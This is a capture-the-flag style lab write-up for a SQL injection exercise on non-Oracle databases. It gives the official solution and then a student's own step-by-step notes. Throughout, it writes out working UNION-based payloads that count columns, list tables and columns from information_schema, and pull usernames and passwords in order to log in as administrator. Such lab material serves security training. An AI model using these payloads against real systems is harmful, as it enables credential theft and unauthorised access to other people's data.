


Lab: SQL injection attack, listing the database contents on non-Oracle databases

Solution:   
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. Now we will find out number of column and what type of data it's storing. 
        for column, use [Category]'+order+by+n+-- (n=1,2,3...n)
        if it's storing data or not
            [Category]'+union+select+null,+null+--
        if it's storing text data or not
            [Category]'+union+select+'A',+'B'+--        `
    5. To retrieve table data 
            [Category]'union+select+table_name,+null+from+information_schema.tables+--
        now copy the url and paste on the browser to show available table data
    6. save a user data from the table for later use
    "users_arjokz"
        now retrieve column data
            [Category]'union+select+column_name,+null+from+information_schema.columns+where+table_name='users_arjokz'+--

            then send it and open it in a new tab, we can now see the column names. 
    7. Now to retrieve username and password, our union attack will be like this
            [Category]'union+select+username_qlijnh,+password_rqddob+from+users_arjokz+--

            now send it and open it in a new tab. You will find administrator and it's password. So, save it and log in with it.

